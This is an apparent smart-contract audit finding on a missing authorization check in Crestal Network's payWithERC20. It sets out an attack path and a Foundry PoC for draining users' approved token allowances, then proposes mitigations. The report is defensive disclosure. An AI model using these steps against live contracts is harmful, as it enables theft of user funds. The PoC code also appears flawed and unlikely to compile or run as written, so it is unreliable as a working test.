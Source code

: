 Exotic Hemp Porpoise

High

# Any caller can initiate unauthorized token transfers from users who have approved the contract.

### Summary

A missing caller authentication check in the [payWithERC20](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/Payment.sol#L25) function will cause unauthorized token transfers for users who have granted token allowances, as any caller will be able to invoke the function to move tokens from an approved fromAddress without the owner's check


### Root Cause

In [payWithERC20()](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/Payment.sol#L25) , the function allows any caller to transfer tokens from any fromAddress that has approved the contract. The function does not validate whether the caller is authorized to perform the transfer on behalf of fromAddress.

### Internal Pre-conditions

User needs to approve the contract to spend their tokens by calling approve() on the ERC20 token contract.

### External Pre-conditions

The fromAddress must have a sufficient token balance and allowance for the contract.

### Attack Path

1. User approves the contract to spend their tokens by calling approve(contractAddress, amount) on the ERC20 token contract.

2. Attacker calls payWithERC20(erc20TokenAddress, amount, fromAddress, attackerAddress), where fromAddress is the user’s address.

3. The contract transfers amount tokens from fromAddress to attackerAddress without validating the caller’s authorization.

### Impact

Users suffer a complete loss of funds up to their approved allowance.

### PoC

```solidity 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Exploit is Test {
    address public user = address(0x123);
    address public attacker = address(0x456);
    address public tokenAddress = address(0x789);
    address public contractAddress = address(this);

    function testExploit() public {
        // User approves the contract to spend 100 tokens
        vm.prank(user);
        IERC20(tokenAddress).approve(contractAddress, 100);

        // Attacker calls payWithERC20 to steal tokens
        vm.prank(attacker);
        payWithERC20(tokenAddress, 100, user, attacker);

        // Attacker now has 100 tokens
        uint256 attackerBalance = IERC20(tokenAddress).balanceOf(attacker);
        assertEq(attackerBalance, 100);
    }

    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
}
```

### Mitigation

1. add a check for Addressfrom == msg.sender 
2. make it internal 